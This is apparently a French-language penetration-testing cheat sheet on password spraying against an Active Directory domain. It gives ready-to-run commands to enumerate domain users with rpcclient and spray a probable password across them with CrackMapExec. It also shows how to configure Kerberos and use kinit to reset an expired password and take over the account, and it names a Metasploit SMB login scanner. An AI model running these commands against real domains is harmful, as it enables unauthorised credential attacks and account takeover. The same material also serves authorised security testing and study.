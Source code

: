 # Password Spraying

```bash
rpcclient <IP> -U '<USER>%<PASS>' -c enumdomusers | cut -d[ -f2|cut -d] -f1 > userlist_<IP>.txt
cme smb -u $(pwd)/userlist_<IP>.txt -p <PASSWORD_PROBABLE> -d <domain.local> <DC-IP> --continue-on-success > spray-result_<IP>.txt
```

Si jamais un utilisateur possède un mot de passe correct mais qu'il est expiré, il est possible de mettre à jour ce mot de passe pour pouvoir utilisé le compte :&#x20;

```
#Installer kinit
#Modifier le fichier de configuration /etc/krb5.conf

[libdefaults]
    default_realm = DOMAIN.LOCAL (en MAJ)
[realms]
    DOMAIN.LOCAL = {
        kdc = domain.local
        admin_server = domain.local:88
    }
[domain_realm]
    .domain.local = DOMAIN.LOCAL
    domain.local = DOMAIN.LOCAL
    
# Il peut être nécessaire de renseigné l'IP de DOMAIN.LOCAL dans /etc/hosts
# Changer le mot de passe de USER

kinit <USER>@<DOMAIN.LOCAL>
```

```
msfconsole (scanner/smb/smb_login)
```
